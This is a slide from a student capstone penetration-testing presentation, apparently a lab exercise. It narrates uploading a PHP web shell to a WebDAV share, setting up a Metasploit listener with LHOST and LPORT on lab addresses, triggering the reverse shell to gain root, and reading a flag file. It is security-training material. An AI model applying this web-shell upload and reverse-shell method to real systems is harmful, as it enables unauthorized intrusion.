

# Capstone Engagement
We end looking up “dav://192.168.1.105/webdav” in the vm’s google and came across “https://www.clavicle.io” which is a run down on how to get into the files we end up making a “shell.php” and putting it in the file and then ended up going into a terminal in ms5 and then putting “set LHOST 192.168.1.90” after that we “set LPORT 55555” and then once that was done then we ended up running that. We ended up going into a search engine and put “192.168.1.105/webdav/shell.php” which ends up activating the command we ended up setting up. For us to find the Flag we end up running the command shell that gave us root then typed in “locate flag.txt” and ended up catting that and got bing0w@5h1sn@m0